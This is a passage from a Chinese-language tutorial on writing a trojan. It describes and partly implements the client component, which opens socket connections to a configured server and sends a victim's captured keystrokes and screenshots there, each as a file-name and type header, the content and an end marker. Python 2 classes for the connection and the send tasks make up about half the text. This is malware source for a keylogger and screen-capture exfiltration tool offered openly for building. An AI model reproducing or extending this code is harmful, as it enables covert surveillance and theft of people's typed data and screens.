 ```
```
接下来的我们讨论客户端的实现，客户端的编程的基本模型比服务端要简单一些。只有两个步骤：

与服务器进行连接
和服务器进行数据通讯
现在思考一下在这个木马程序中我们需要给服务器发送那些数据，很容易分析出我们需要传输<文件名，文件类型，文件的具体内容，结束标志>，为什么需要结束标志咧？因为客户端已经发送完数据了，需要通知服务器数据已经完成，可以断开连接了，这个时候客户端和服务器就能正常断开连接，将资源还给操作系统了。

现在我们开始思考如何实现客户端的功能，让我们再次梳理一下客户端的功能:

建立与服务器的连接
发送文件名和文件类型（简称消息头部）
发送文件的具体内容
发送结束标志
在本程序中我们除了发送键盘输入数据外还有屏幕截图，因为这两个功能是并行执行的，所以这两类数据的发送不能共用同一个服务器连接(否则键盘数据和图像数据混合在一起就没法区分了)。本程序维护了一个服务器连接的类,
```
class NetworkClient(object):
    def __init__(self, config):
        self.server_ip = config['IP']
        self.server_port = config['PORT']
        # 新建一个scoket对象
        self.sock = socket.socket()
        # 建立与服务器的连接
        self.sock.connect((self.server_ip, self.server_port))

    def send_data(self, data):
        # 发送数据到服务器
        ret = self.sock.sendall(data)
        assert ret != -1

    def destroy(self):
        # 断开与服务器的连接
        try:
            self.sock.close()
        except Exception as e:
            print e
```
将每一次的数据发送抽象成一次网络任务，发送消息头部就相当于执行了一次网络任务。
```
class NetworkTaskManager(object):

    def __init__(self, server_instance, file_type, file_name):
        self.server_instance = server_instance
        self.file_type = file_type
        self.file_name = file_name
        # 发送消息头， 在这里是为了发送文件名和文件类型
        self.send_message_header()

    def send_message_header(self):
        # 发送消息头部
        header_message = {
            "file_name": self.file_name,
            "file_type": self.file_type
        }
        # 建立一个任务，然后发送相应的内容
        task = BasicNetworkTask(self.server_instance, json.dumps(header_message))
        task.run()

    def send_content(self, content):
        # 发送文件的正文
        task = BasicNetworkTask(self.server_instance, content)
        task.run()
        return "success"

```